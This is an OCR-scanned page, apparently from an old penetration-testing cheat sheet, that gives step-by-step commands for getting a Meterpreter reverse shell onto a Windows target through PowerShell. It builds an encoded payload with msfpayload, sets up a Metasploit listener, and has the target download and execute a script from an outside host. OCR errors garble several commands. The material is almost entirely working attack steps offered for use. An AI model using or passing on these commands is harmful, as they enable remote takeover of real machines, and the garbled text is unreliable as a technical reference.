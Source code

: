 ```text
(, '$ ( [Convert] : : FromBase64String ('"$code'") ) I I ,
[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"
# Invoke-Expression $command
$bytes= [System.Text.Encoding] ::Unicode.GetBytes($command)
$encodedCommand = [Convert]: :ToBase64String($bytes)
# Write to Standard Out
Write-Host $encodedCommand
```

Copyright 2012 TrustedSec, LLC. All rights reserved.   
Please see reference \[7\] for disclaimer

## Using powershell to launch meterpreter \(2nd method\)

### On bt attack box

```text
1. msfpayload windows/rneterpreter/reverse tcp LHOST=10.1.1.1
LPORT~8080 R I msfencode -t psh -a x86
```

### On windows attack box

```text
1. c:\ powershell
2. PS c:\ $cmd = ' PASTE THE CONTENTS OF THE PSH SCRIPT HERE '
3. PS c:\ $u = [System.Text.Encoding]: :Unicode.GetBytes($crnd)
4. PS c: \ $e = [Convert] ::ToBase64String($u)
5. PS c:\ $e
6. Copy contents of $e
```

### Start listener on attack box

```text
1. ./msfconsole
2. use exploit/multi/handler
3. set payload windows/meterpreter/reverse tcp
4. set LHOST 1.1.1.1
5. set LPORT 8080
6. exploit -j
```

### On target shell \(1:download shellcode, 2:execute\)

```text
1.  c: \ powershell -noprofile -noninteracti ve -command " &
    {$client=new-object
    System.Net.WebClient;$client.DownloadFile('http://1.1.1.1/shell.txt
    ', 'c:\windows\temp\ shell.txt') )"
2.  c: \ powershell -noprofile -noninteracti ve -noexi t -command " &
    {$crnd~tjpe 'c:\windows\temp\ shell.txt';powershell -noprofilenoninteractive
    -noexit -encodedCornmand $cmd} "
PROFIT
```

